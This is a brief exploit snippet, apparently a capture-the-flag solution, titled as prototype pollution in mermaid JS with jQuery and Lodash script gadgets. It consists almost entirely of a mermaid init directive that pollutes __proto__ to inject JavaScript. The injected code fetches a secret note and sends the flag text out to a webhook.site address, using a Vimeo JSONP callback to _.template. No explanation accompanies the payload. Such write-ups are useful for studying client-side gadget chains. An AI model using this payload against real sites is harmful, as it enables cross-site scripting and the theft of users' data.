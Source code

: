 ### Prototype Pollution in mermaid JS + jQuery + Lodash Script Gadget

```ruby
```mermaid

%%{init: { '__proto__': {'sourceURL': '\u2028\u2029fetch(`https://hackus.xyz/s/secret-note`).then(x=>x.text()).then( x=> fetch(`https://webhook.site/***?flag=`+btoa(x.substr(x.indexOf(`CTF-BR`),100))))','dataType':'script','url':['https://vimeo.com/api/oembed.json?url=https%3A//vimeo.com/286898202&width=480&height=360&callback=_.template']}} }%%
sequenceDiagram
Alice->>Bob: Hi Bob
Bob->>Alice: Hi Alice

.```

```
